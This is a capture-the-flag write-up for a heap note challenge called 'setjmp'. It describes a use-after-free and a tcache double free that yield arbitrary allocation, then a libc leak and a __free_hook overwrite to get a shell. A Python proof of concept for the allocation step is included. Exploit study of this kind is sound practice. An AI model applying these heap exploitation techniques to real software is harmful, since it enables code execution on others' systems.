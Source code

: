 # setjmp

## tl;dr

Just a heap 101 practice! Use heap fengshui to leak libc and overwrite `__free_hook` to get shell.

(Which is unintended)

## Solution

A heap note challenge with setjmp and longjmp. But the UAF is trivial.

First, we can start by leaking the heap base. We can free the "root" chunk at the beginning, and even though it is freed, we can still show it. So by showing the user, we can leak the heap base.

This challenge still has a clear UAF (Use-After-Free) vulnerability. Freeing a user will go into the tcache and we can also modify the key field of the tcache chunk. So here, we can free a user, modify the key field of the tcache chunk, and then free it again to cause tcache double free. This will give us an arbitrary allocation primitive.

Here is a POC (Proof of Concept) for arbitrary allocation: (allocating a chunk at 0xDEADBEEF)

{% highlight python %}
def add_user(username,password):
    sla("> ","2")
    sa("> ",username)
    sa("> ",password)
def free_user(username):
    sla("> ","3")
    sa("> ",username)
def change_pass(username,password):
    sla("> ","4")
    sa("> ",username)
    sa("> ",password)
def show_user():
    sla("> ","5")

free_user("root")
show_user()
add_user("aaa","bbb")
add_user("ccc","ddd")
free_user("aaa")
free_user("ccc")
sla("> ","1")
free_user("root")
show_user()
new_user = r.recv(6)
change_pass(new_user,"fake2")
free_user(new_user)
add_user(p64(0xDEADBEEF),p64(0))
add_user("eee","fff")
{% endhighlight %}

Afterwards, we can allocate and modify the size of other user chunk headers, causing the user to be placed in the unsorted bin when freed. It is important to arrange the heap properly because the `prev_inuse` bit of the next chunk is checked when attempting to free into the unsorted bin.

{% highlight c %}
if (__glibc_unlikely (!prev_inuse(nextchunk))) // here
      malloc_printerr ("double free or corruption (!prev)");
{% endhighlight %}

After that we have libc leak and we can use the same method to overwrite `__free_hook` to get shell.

## Exploit Script

See here: [https://github.com/pwn2ooown/CTF-Writeups-Public/blob/main/2024_HITCON_CTF_Qual/setjmp/exp.py](https://github.com/pwn2ooown/CTF-Writeups-Public/blob/main/2024_HITCON_CTF_Qual/setjmp/exp.py)
